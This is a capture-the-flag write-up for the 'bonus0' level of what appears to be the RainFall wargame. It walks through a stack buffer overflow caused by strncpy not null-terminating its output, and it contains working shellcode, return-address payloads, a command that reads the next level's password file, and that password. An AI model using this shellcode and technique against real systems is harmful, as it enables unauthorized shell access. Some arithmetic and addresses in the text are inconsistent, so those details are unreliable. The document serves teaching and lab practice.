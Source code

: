 # Bonus 0

## Answer
Our C source code generates almost the same assembly code as the original binary. Compile it as follows:
> There is a slight difference as mentioned in the comments of the source code. I assume this is due to us using the wrong type for the buffers in the `pp` function. Nonetheless, it doesn't change the program's behavior
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <string.h>

unsigned short *a = 32;

void p(char *str, char *str2)
{
    char buf[4096];

    puts(str2);
    read(0, buf, 4096);
    *strchr(buf, '\n') = 0;
    strncpy(str, buf, 20);
}

// sub is incorrect by 4 bytes and ebx is not used
void pp(char *str)
{
    char buf[20];
    char buf2[20];

    p(buf2, " - ");
    p(buf, " - ");

    strcpy(str, buf2);

    str[strlen(str)] = *a;

    strcat(str, buf);
}

int main()
{
    char buf[42];

    pp(buf);
    puts(buf);

    return 0;
}
```

Let's focus on the `main` function. It reads input using the `read` function, the null terminator is then added with `strchr` and the string is copied to the `buf` buffer using `strncpy` with a size of 20. However, the `strncpy` function doesn't add a null terminator if the string is longer than the size provided. Therefore, the `str` buffer will not be null terminated.

This will result in `strcpy` copying the `buf2` buffer to the `str` buffer, but it will not stop at the null terminator, since there is none. It will continue to copy the `buf` buffer to the `str` buffer, which can result in a buffer overflow. Then `strcat` will append the `buf` buffer to the `str` buffer. Let's first see how many bytes we need to overflow the buffer by analyzing the stack layout of our program:
```bash
(gdb) b *main+38 # Breaking before leave
Breakpoint 1 at 0x80485ca

(gdb) r # Run the program
Starting program: /home/user/bonus0/bonus0
 -

 -



Breakpoint 1, 0x080485ca in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6f0       0xbffff6f0
ebp            0xbffff738       0xbffff738
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 72 bytes:
```
0xbffff738 - 0xbffff6f0 = 48 (72 in decimal)
```

Furthermore, we can see that our buffer is located at `0x16(%esp),%eax`. Since there is 72 bytes for the stack, our buffer will therefore requiere 50 bytes (72 - 22) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 54 bytes (50 + 4).

Anything written beyond those 54 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

Since we now know that 54 bytes are required, let's see how many we can write:
```bash
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���
Segmentation fault (core dumped)
```

We're obviously limited to 20 bytes per buffer, but as we can see, the 20 bytes of B's are written after the 20 bytes of A's. There is also a space added between the two buffer and finally another 20 bytes of A's. So it's possible to write 61 bytes in total which is more than enough to overwrite the return address of the `main` function.

Since the bytes of `buf` are written after the bytes of `buf2`, we have to be slightly tactical to figure out where we need to write our address:
```
20 bytes of buf2 + 19 bytes of buf + 1 byte of space + 19 bytes of buf

54 - 59 = -5 bytes
```

So we need to write our address 5 bytes before the end of the `buf` buffer. Such as:
```
buf2 = "AAAAAAAAAAAAAAAAAAAA"
buf = "BBBBBBBBBBBBBB" + Address (4 bytes) + "B"
20 + 19 + 1 + 14 = 54 bytes
```

Since a ret2libc would requiere 12 bytes (4 bytes for the address of `system`, 4 bytes for the address of `exit` and 4 bytes for the address of "/bin/sh"), we're just going to use a ret2shellcode.

We can either feed our shellcode to the program in the `buf` of the `p` function who has a size of 4096 bytes thanks to the `read` function, or we can put the shellcode in an environment variable `EXPLOIT`. For convenience, we'll use the environment variable:
```bash
bonus0@RainFall:~$ export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus0@RainFall:/tmp$ ./a.out
0xbffff848
```

Alright, let's craft our payloads:
```
arg1 = padding of 20 bytes
arg2 = padding of 14 bytes + address of the shellcode in the env + padding of 1 byte

arg1 = A * 20
arg2 = B * 14 + "\xbf\xff\xf8\x48" + B * 1
```

Let's run it:
```bash
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 14 + "\x10\xf9\xff\xbf" + "B"'; echo 'cat /home/user/bonus1/.pass') | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBH���A BBBBBBBBBBBBBBH���A
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

We are now bonus1! Let's move on to the next level.